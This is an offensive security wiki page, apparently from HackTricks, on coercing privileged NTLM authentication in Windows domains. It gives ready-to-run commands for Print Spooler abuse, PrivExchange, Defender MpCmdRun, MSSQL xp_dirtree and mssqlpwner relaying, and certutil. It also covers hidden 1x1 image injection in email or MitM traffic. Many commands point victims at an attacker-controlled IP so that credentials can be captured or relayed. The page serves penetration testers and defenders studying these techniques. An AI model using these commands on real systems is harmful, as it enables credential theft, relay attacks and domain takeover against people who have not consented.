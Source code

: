 # Force NTLM Privileged Authentication

\{{#include ../../banners/hacktricks-training.md\}}

## SharpSystemTriggers

[**SharpSystemTriggers**](https://github.com/cube0x0/SharpSystemTriggers) is a **collection** of **remote authentication triggers** coded in C# using MIDL compiler for avoiding 3rd party dependencies.

## Spooler Service Abuse

If the _**Print Spooler**_ service is **enabled,** you can use some already known AD credentials to **request** to the Domain Controller’s print server an **update** on new print jobs and just tell it to **send the notification to some system**.\
Note when printer send the notification to an arbitrary systems, it needs to **authenticate against** that **system**. Therefore, an attacker can make the _**Print Spooler**_ service authenticate against an arbitrary system, and the service will **use the computer account** in this authentication.

### Finding Windows Servers on the domain

Using PowerShell, get a list of Windows boxes. Servers are usually priority, so lets focus there:

```bash
Get-ADComputer -Filter {(OperatingSystem -like "*windows*server*") -and (OperatingSystem -notlike "2016") -and (Enabled -eq "True")} -Properties * | select Name | ft -HideTableHeaders > servers.txt
```

### Finding Spooler services listening

Using a slightly modified @mysmartlogin's (Vincent Le Toux's) [SpoolerScanner](https://github.com/NotMedic/NetNTLMtoSilverTicket), see if the Spooler Service is listening:

```bash
. .\Get-SpoolStatus.ps1
ForEach ($server in Get-Content servers.txt) {Get-SpoolStatus $server}
```

You can also use rpcdump.py on Linux and look for the MS-RPRN Protocol

```bash
rpcdump.py DOMAIN/USER:PASSWORD@SERVER.DOMAIN.COM | grep MS-RPRN
```

### Ask the service to authenticate against an arbitrary host

You can compile[ **SpoolSample from here**](https://github.com/NotMedic/NetNTLMtoSilverTicket)**.**

```bash
SpoolSample.exe <TARGET> <RESPONDERIP>
```

or use [**3xocyte's dementor.py**](https://github.com/NotMedic/NetNTLMtoSilverTicket) or [**printerbug.py**](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py) if you're on Linux

```bash
python dementor.py -d domain -u username -p password <RESPONDERIP> <TARGET>
printerbug.py 'domain/username:password'@<Printer IP> <RESPONDERIP>
```

### Combining with Unconstrained Delegation

If an attacker has already compromised a computer with [Unconstrained Delegation](unconstrained-delegation.md), the attacker could **make the printer authenticate against this computer**. Due to the unconstrained delegation, the **TGT** of the **computer account of the printer** will be **saved in** the **memory** of the computer with unconstrained delegation. As the attacker has already compromised this host, he will be able to **retrieve this ticket** and abuse it ([Pass the Ticket](pass-the-ticket.md)).

## RCP Force authentication

\{{#ref\}} https://github.com/p0dalirius/Coercer \{{#endref\}}

## PrivExchange

The `PrivExchange` attack is a result of a flaw found in the **Exchange Server `PushSubscription` feature**. This feature allows the Exchange server to be forced by any domain user with a mailbox to authenticate to any client-provided host over HTTP.

By default, the **Exchange service runs as SYSTEM** and is given excessive privileges (specifically, it has **WriteDacl privileges on the domain pre-2019 Cumulative Update**). This flaw can be exploited to enable the **relaying of information to LDAP and subsequently extract the domain NTDS database**. In cases where relaying to LDAP is not possible, this flaw can still be used to relay and authenticate to other hosts within the domain. The successful exploitation of this attack grants immediate access to the Domain Admin with any authenticated domain user account.

## Inside Windows

If you are already inside the Windows machine you can force Windows to connect to a server using privileged accounts with:

### Defender MpCmdRun

```bash
C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2010.7-0\MpCmdRun.exe -Scan -ScanType 3 -File \\<YOUR IP>\file.txt
```

### MSSQL

```sql
EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1
```

[MSSQLPwner](https://github.com/ScorpionesLabs/MSSqlPwner)

```shell
# Issuing NTLM relay attack on the SRV01 server
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -link-name SRV01 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on chain ID 2e9a3696-d8c2-4edd-9bcc-2908414eeb25
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth -chain-id 2e9a3696-d8c2-4edd-9bcc-2908414eeb25 ntlm-relay 192.168.45.250

# Issuing NTLM relay attack on the local server with custom command
mssqlpwner corp.com/user:lab@192.168.1.65 -windows-auth ntlm-relay 192.168.45.250
```

Or use this other technique: [https://github.com/p0dalirius/MSSQL-Analysis-Coerce](https://github.com/p0dalirius/MSSQL-Analysis-Coerce)

### Certutil

It's possible to use certutil.exe lolbin (Microsoft-signed binary) to coerce NTLM authentication:

```bash
certutil.exe -syncwithWU  \\127.0.0.1\share
```

## HTML injection

### Via email

If you know the **email address** of the user that logs inside a machine you want to compromise, you could just send him an **email with a 1x1 image** such as

```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

and when he opens it, he will try to authenticate.

### MitM

If you can perform a MitM attack to a computer and inject HTML in a page he will visualize you could try injecting an image like the following in the page:

```html
<img src="\\10.10.17.231\test.ico" height="1" width="1" />
```

## Other ways to force and phish NTLM authentication

\{{#ref\}} ../ntlm/places-to-steal-ntlm-creds.md \{{#endref\}}

## Cracking NTLMv1

If you can capture [NTLMv1 challenges read here how to crack them](../ntlm/index.html#ntlmv1-attack).\
&#xNAN;_&#x52;emember that in order to crack NTLMv1 you need to set Responder challenge to "1122334455667788"_

\{{#include ../../banners/hacktricks-training.md\}}
